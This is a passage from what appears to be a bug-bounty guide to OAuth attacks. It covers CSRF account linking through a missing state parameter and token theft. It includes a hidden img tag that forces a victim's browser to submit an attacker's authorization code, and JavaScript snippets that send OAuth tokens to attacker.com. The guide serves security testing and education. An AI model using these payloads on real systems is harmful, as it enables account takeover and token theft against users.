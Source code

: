    - **Account Linking Attack**:
     1. Identify an OAuth account linking functionality
     2. Generate an authorization code for your social account but drop the request
     3. Create a malicious HTML file that forces the victim's browser to send a request with your code
     4. When the victim visits the page, your social account gets linked to their account

4. **Post-Exploitation**
   - Demonstrate how the attack leads to account takeover
   - Show how an attacker could maintain persistent access

### Real-World Example

A researcher found that a popular e-commerce platform was implementing OAuth for social login but wasn't validating the state parameter. The researcher created a simple HTML page with:

```html
<img src="https://ecommerce-site.com/oauth/callback?code=ATTACKER_CODE" style="display:none">
```

When a victim with an active session on the e-commerce site visited this page, the attacker's authorization code was processed in the context of the victim's session, linking the attacker's social account to the victim's e-commerce account.

### Bug Bounty Tips

- Look for OAuth implementations that don't use the state parameter at all
- Test if the state parameter is validated properly when returned
- Check if the state parameter is bound to the user's session
- Document the full impact by showing how an attacker could take over accounts

## Token Theft Techniques

OAuth tokens are high-value targets for attackers, as they provide direct access to protected resources. This section covers advanced techniques for stealing OAuth tokens.

### Step-by-Step Exploitation Guide

1. **Reconnaissance Phase**
   - Identify where tokens are stored (localStorage, cookies, etc.)
   - Determine token transmission methods (URL fragments, POST bodies)
   - Check for token exposure in logs, referrers, or error messages

2. **Exploitation Techniques**

   - **Client-Side Token Exposure**:
     - **XSS to Access Token Storage**:
       ```javascript
       // If tokens are stored in localStorage
       fetch('https://attacker.com/steal?token=' + localStorage.getItem('oauth_token'));
       ```
     
     - **Malicious JavaScript in OAuth Flow**:
       ```javascript
       // Intercept token from URL fragment
       window.location = 'https://attacker.com/steal?token=' + location.hash.substr(1);
       ```
